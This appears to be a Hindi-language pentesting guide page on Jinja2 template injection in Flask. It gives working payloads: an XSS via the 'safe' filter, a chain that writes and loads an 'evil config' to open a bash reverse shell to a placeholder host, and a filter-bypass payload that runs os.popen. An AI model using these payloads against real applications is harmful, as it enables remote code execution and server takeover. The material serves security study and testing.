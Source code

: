 **HTML एन्कोडिंग से बचना**

डिफ़ॉल्ट रूप से Flask सुरक्षा कारणों से एक टेम्पलेट के अंदर सभी को HTML एन्कोड करता है:
```python
{{'<script>alert(1);</script>'}}
#will be
&lt;script&gt;alert(1);&lt;/script&gt;
```
**`safe`** फ़िल्टर हमें पृष्ठ में JavaScript और HTML को **बिना** **HTML एन्कोडेड** किए इंजेक्ट करने की अनुमति देता है, जैसे:
```python
{{'<script>alert(1);</script>'|safe}}
#will be
<script>alert(1);</script>
```
**एक बुरा कॉन्फ़िग फ़ाइल लिखकर RCE।**
```python
# evil config
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

# load the evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}

# connect to evil host
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}
```
## बिना कई अक्षरों के

बिना **`{{`** **`.`** **`[`** **`]`** **`}}`** **`_`**
```python
{% raw %}
{%with a=request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls${IFS}-l')|attr('read')()%}{%print(a)%}{%endwith%}
{% endraw %}




```
## Jinja Injection बिना **\<class 'object'>**

[**ग्लोबल ऑब्जेक्ट्स**](jinja2-ssti.md#accessing-global-objects) से **RCE तक पहुँचने का एक और तरीका है बिना उस क्लास का उपयोग किए।**\
यदि आप उन ग्लोबल ऑब्जेक्ट्स में से किसी भी **फंक्शन** तक पहुँचने में सफल होते हैं, तो आप **`__globals__.__builtins__`** तक पहुँच सकते हैं और वहाँ से **RCE** बहुत **सरल** है।

आप **फंक्शंस** को ऑब्जेक्ट्स **`request`**, **`config`** और किसी भी **अन्य** दिलचस्प **ग्लोबल ऑब्जेक्ट** से ढूंढ सकते हैं, जिन तक आपको पहुँच है:
```bash
{{ request.__class__.__dict__ }}
- application
- _load_form_data
- on_json_loading_failed

{{ config.__class__.__dict__ }}
- __init__
- from_envvar
- from_pyfile
- from_object
- from_file
- from_json
- from_mapping
- get_namespace
```